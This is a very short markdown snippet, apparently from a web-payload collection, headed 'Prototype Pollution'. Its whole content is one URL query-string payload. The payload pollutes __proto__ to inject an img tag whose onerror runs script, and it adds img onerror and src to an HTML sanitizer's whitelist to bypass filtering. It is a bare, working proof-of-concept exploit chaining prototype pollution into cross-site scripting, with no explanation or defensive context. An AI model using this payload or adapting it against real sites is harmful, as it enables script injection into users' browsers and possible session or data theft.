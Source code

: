 # Prototype Pollution

```
?page=pil&__proto__[pil]=<img src%3Dx onerror%3Dalert(document.domain)>&__proto__[whiteList][img][0]=onerror&__proto__[whiteList][img][1]=src
```
